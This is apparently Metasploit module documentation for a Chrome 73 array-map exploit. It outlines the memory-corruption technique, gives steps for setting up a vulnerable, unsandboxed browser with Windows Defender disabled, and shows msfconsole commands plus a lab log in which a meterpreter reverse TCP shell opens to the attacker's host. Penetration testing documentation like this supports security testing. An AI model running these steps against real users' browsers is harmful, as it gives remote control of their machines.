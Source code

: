 This module exploits an issue in Chrome 73.0.3683.86 (64 bit). The exploit corrupts the length of a float in order to modify the backing store of a typed array. The typed array can then be used to read and write arbitrary memory. 
The exploit then uses WebAssembly in order to allocate a region of RWX memory, which is then replaced with the payload.

**The payload is executed within the sandboxed renderer process, so the browser must be run with the --no-sandbox option for the payload to work correctly.**

## Vulnerable Application

The module is compatible with any 64bit Google Chrome (version 72 or 73), on any platform (macOS, Linux or Windows), however the code that writes the shellcode into the rwx region (wasm_rwx_addr) may need to be modified.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://www.filepuma.com/download/google_chrome_64bit_73.0.3683.86-21785/](https://www.filepuma.com/download/google_chrome_64bit_73.0.3683.86-21785/)

You should ensure that application does not update itself to the latest version (by disabling automatic updates or simply not connecting to the internet).
You may also need to disable Windows Defender.

## Verification Steps

1. Do: ```use exploit/multi/browser/chrome_array_map```
2. Do: ```set payload windows/x64/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set SRVHOST [IP]```
3. Do: ```set URIPATH / [PATH]```
4. Do: ```run```

## Scenarios

### Windows 10 and Google Chrome 73.0.3683.86 with --no-sandbox

Start Google Chrome without a sandbox:
```"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox```

```
msf5 > use exploit/multi/browser/chrome_array_map
msf5 exploit(multi/browser/chrome_array_map) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf5 exploit(multi/browser/chrome_array_map) > set URIPATH /
URIPATH => /
msf5 exploit(multi/browser/chrome_array_map) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/browser/chrome_array_map) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(multi/browser/chrome_array_map) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(multi/browser/chrome_array_map) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.3     chrome_array_map - Sending / to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
[*] Sending stage (206403 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49675) at 2020-02-29 15:07:06 +0800

msf5 exploit(multi/browser/chrome_array_map) > sessions 1
[*] Starting interaction with 1...

meterpreter > pwd
C:\Program Files (x86)\Google\Chrome\Application\73.0.3683.86
meterpreter >
```
